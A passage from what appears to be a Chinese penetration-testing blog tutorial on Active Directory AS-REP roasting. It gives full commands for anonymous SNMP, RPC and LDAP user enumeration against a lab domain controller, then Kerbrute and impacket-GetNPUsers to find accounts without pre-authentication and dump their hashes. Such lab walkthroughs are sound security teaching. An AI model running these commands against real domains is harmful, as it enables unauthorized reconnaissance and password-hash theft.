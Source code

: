**

如上所述，我们应该先通过匿名访问 SNMP、RPC、LDAP(S) 中的任一项服务来枚举 DC，以便能够转储域用户列表。

我们可以使用各种不同的工具和技术来检查这三种服务是否可以被匿名访问。

【1】首先，可以使用以下命令检查对 SNMP 服务的匿名访问：

    snmp-check 172.16.1.5
    

![](https://img2024.cnblogs.com/blog/1503193/202505/1503193-20250520182702428-347067156.png)

如果操作有效，它将转储大量的信息，其中就包括“用户帐户”，即域中的所有用户。

【2】接着，使用 rpcclient 工具检查对 RPC 服务的匿名访问：

    rpcclient 172.16.1.5 -N
    

如果操作有效，我们将进入 rpcclient 交互界面，然后就可以使用以下命令枚举用户：

    enumdomusers
    

![](https://img2024.cnblogs.com/blog/1503193/202505/1503193-20250520182702828-564767413.png)

【3】最后，可以使用 ldapsearch 检查对 LDAP(S) 服务的匿名访问：

    ldapsearch -x -H 'ldap://172.16.1.5' -b "dc=juggernaut,dc=local"
    

![](https://img2024.cnblogs.com/blog/1503193/202505/1503193-20250520182704228-329082991.png)

如果操作有效，它将会转储出大量的信息。但由于输出的信息太多，我们不得不用点 Linux 技巧去提取域用户。

    ldapsearch -x -H 'ldap://172.16.1.5' -b "dc=juggernaut,dc=local" | grep 'userPrincipalName' | tr '@' ' ' | awk '{print $2}'
    

![](https://img2024.cnblogs.com/blog/1503193/202505/1503193-20250520182704194-2042546741.png)

请注意，此工具输出的结果中并没有包括三个内置域帐户：Administrator、krbtgt、Guest。

再次强调，这只是我们如何查找域用户的一个小例子。但是，如果这些技术中的任一种奏效，并且能够成功转储出用户列表，那我们就可以使用下面这个名为 Kerbrute 的工具来检查该用户列表中是否存在 AS-REP 可烘烤用户。

![](https://img2024.cnblogs.com/blog/1503193/202505/1503193-20250520182703971-2129386822.png)

整理出 users.txt 文件之后，我们就可以将其传递给 Kerbrute 来检查其中的账户。

    kerbrute -users ./users.txt -domain juggernaut.local -dc-ip 172.16.1.5
    

![](https://img2024.cnblogs.com/blog/1503193/202505/1503193-20250520182703584-344637159.png)

Amazing！Kerbrute 能够检查每个用户名的有效性，并确定它们是处于活动状态还是被阻止/禁用状态，同时还为那些没有启用预身份验证的用户进行了注释说明，如 **vcreed** 用户。

> 注：【1】上文中使用的 [kerbrute](https://github.com/TarlogicSecurity/kerbrute) 是一个基于 impacket 包制作的 **python 版本**的用户名爆破工具，它可以识别出用户是否禁用预身份验证。【效果很好】
> 
> 【2】[kerbrute](https://github.com/ropnop/kerbrute/tree/master) **二进制版本**的工具本身仅能够进行用户名爆破和账户密码爆破的（速度很快），但无法识别用户是否禁用预身份验证。【同时，使用它之前，需要在 hosts 文件中添加域控的“域名 ip”对应信息。】
> 
> 【3】impacket-GetNPUsers 工具也可以远程识别用户是否禁用预身份验证，同时还会转储那些禁用预身份验证的用户的哈希。【命令用法：`impacket-GetNPUsers -dc-ip 192.168.56.50 -usersfile user.txt skylark.com/`】
> 
> 【4】rubeus.exe 工具也可以识别用户是否禁用预身份验证，但它需要在域主机上使用。
